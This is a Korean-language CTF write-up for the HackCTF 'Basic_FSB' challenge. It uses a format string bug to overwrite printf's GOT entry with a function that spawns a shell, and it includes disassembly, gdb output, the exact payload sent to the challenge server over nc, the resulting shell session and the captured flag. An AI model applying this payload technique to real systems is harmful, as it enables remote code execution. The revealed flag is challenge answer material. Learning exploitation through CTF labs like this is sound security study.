 #Basic_FSB

---

기본적인 format string bug 문제이다. 우선 ida를 이용하여 보았더니 다음과 같은 취약한 함수가 보였다.
```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```
이 코드에서는 s에 입력한 문자열을 format으로 옮긴다음 format을 실행시킨다. 이 취약한 함수 `vuln()`의 assembly code는 다음과 같다.

```assembly
gdb-peda$ pd vuln
Dump of assembler code for function vuln:
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	sub    esp,0x808
   0x08048554 <+9>:	sub    esp,0xc
   0x08048557 <+12>:	push   0x80486b0
   0x0804855c <+17>:	call   0x80483d0 <printf@plt>
   0x08048561 <+22>:	add    esp,0x10
   0x08048564 <+25>:	mov    eax,ds:0x804a040
   0x08048569 <+30>:	sub    esp,0x4
   0x0804856c <+33>:	push   eax
   0x0804856d <+34>:	push   0x400
   0x08048572 <+39>:	lea    eax,[ebp-0x808]
   0x08048578 <+45>:	push   eax
   0x08048579 <+46>:	call   0x80483e0 <fgets@plt>
   0x0804857e <+51>:	add    esp,0x10
   0x08048581 <+54>:	sub    esp,0x4
   0x08048584 <+57>:	lea    eax,[ebp-0x808]
   0x0804858a <+63>:	push   eax
   0x0804858b <+64>:	push   0x400
   0x08048590 <+69>:	lea    eax,[ebp-0x408]
   0x08048596 <+75>:	push   eax
   0x08048597 <+76>:	call   0x8048430 <snprintf@plt>
   0x0804859c <+81>:	add    esp,0x10
   0x0804859f <+84>:	sub    esp,0xc
   0x080485a2 <+87>:	lea    eax,[ebp-0x408]
   0x080485a8 <+93>:	push   eax
   0x080485a9 <+94>:	call   0x80483d0 <printf@plt>
   0x080485ae <+99>:	add    esp,0x10
   0x080485b1 <+102>:	nop
   0x080485b2 <+103>:	leave  
   0x080485b3 <+104>:	ret    
End of assembler dump.
```

이 함수의 ret주소를 다음 `flag()`의 주소로 바꾼다면 쉘을 따낼 수 있을 것이다.

    int flag()
    {
      puts("EN)you have successfully modified the value :)");
      puts(aKr);
      return system("/bin/sh");
    }

---


`vuln()+104`에서 break를 걸고 `vuln()`의 ret주소의 위치를 찾아보자.

```gdb
    [----------------------------------registers-----------------------------------]
    EAX: 0x5 
    EBX: 0x0 
    ECX: 0xffffffff 
    EDX: 0xf7fb7870 --> 0x0 
    ESI: 0xf7fb6000 --> 0x1b1db0 
    EDI: 0xf7fb6000 --> 0x1b1db0 
    EBP: 0xffffce68 --> 0x0 
    ESP: 0xffffce5c --> 0x8048617 (<main+42>:	moveax,0x0)
    EIP: 0x80485b3 (<vuln+104>:	ret)
    EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x80485ae <vuln+99>:	add esp,0x10
       0x80485b1 <vuln+102>:	nop
       0x80485b2 <vuln+103>:	leave  
    => 0x80485b3 <vuln+104>:	ret
       0x80485b4 <flag>:	push   ebp
       0x80485b5 <flag+1>:	mov ebp,esp
       0x80485b7 <flag+3>:	sub esp,0x8
       0x80485ba <flag+6>:	sub esp,0xc
```
이때의 esp의 주소는 0xffffce5c이다. 때문에 `vuln()`의 return address는 0xffffce5c이다.

**vuln() return address: 0xffffce5c**


또한 `flag()`의 주소는 다음과 같다.

```bash
    gdb-peda$ p flag
    $1 = {<text variable, no debug info>} 0x80485b4 <flag>
```
**flag() address: 0x80485b4**

---

필요한 정보를 모두 얻었으니 적절한 payload를 찾아보자. 

```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```
다음 코드에서 `printf()`에서 취약점이 발생하는데, 이 함수가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - printf() return address(4bytes) - format주소(4bytes) - s(1024bytes) - format(1024bytes) <higher\>**

0xffffce5c에 대입하고자 하는 주소인 0x80485b4는 134514100이기 때문에 int범위 안에 속한다. 때문에 %n을 이용해서 한번에 처리할 수 있다.

때문에 payload를 다음과 같이 짤 것이다.

**[dummy 4bytes]+[0xffffce5c]+%134514092x+%n**

134514092라는 값은 0x80485b4인 134514100에서 앞에 출력된 8bytes를 뺀 값이다.

이를 시도하려고 했지만 ASLR때문에 이 방법은 불가능하다는 것을 알게 되었다.

---

위와 비슷하지만 조금 다른 방법을 떠올려보자. 

보안기법을 보면 다음과 같다.

```bash
    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial
```
때문에 got overwrite가 가능하다.

이번에는 조금 다르게 `snprintf()`에서 format string bug를 일으켜 `printf()`의 got를 flag의 주소로 overwrite 할 것이다.

이를 위해서 필요한 정보를 찾아보자.

우선 `printf()`의 got주소는 다음과 같다.
```gdb
    gdb-peda$ p printf
    $2 = {<text variable, no debug info>} 0x80483d0 <printf@plt>
    gdb-peda$ x/i 0x80483d0
       0x80483d0 <printf@plt>:	jmp DWORD PTR ds:0x804a00c
```
**printf() got address: 0x804a00c**

그리고 `flag()`의 주소는 다음과 같음을 위에서 알 수 있었다.

**flag() address: 0x80485b4**

---

이제 다시 적절한 payload를 짜보자.
```c
    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }
```c
다음과 같은 코드에서 `snprintf()`가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - snprintf() return address(4bytes) - format address(4bytes) - 0x400u(4bytes) - s address(4bytes) - format(1024bytes) - s(1024bytes) <higher\>**

0x80485b4를 십진수로 변환하면 134514100이기 때문에 다음과 같이 payload를 짤 수 있다.

**0x804a00c + %134514096x + %$257n**

134514096이라는 숫자는 0x80485b4를 십진수로 변환한 134514100에서 앞에 나온 4bytes를 뺀 값이다. 또한 %$257n은 stack상황에서 s address와 s의 위치가 1024bytes 차이가 나기 때문에 다음과 같이 지정해야 257번째 인자의 위치가 0x804a00c가 된다.
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/3.Basic_FSB$ (python -c "print '\x0c\xa0\x04\x08'+'%134514096x'+'%$257n'";cat) | nc ctf.j0n9hyun.xyz 3002
    input : EN)you have successfully modified the value :)
    KR)#값조작 #성공적 #플래그 #FSB :)
    pwd
    /home/attack
    ls
    flag
    main
    cat flag
    HackCTF{여보게_오늘_반찬은_포맷스트링이_어떠한가?}
```
**flag: HackCTF{여보게\_오늘\_반찬은\_포맷스트링이\_어떠한가?}**
    
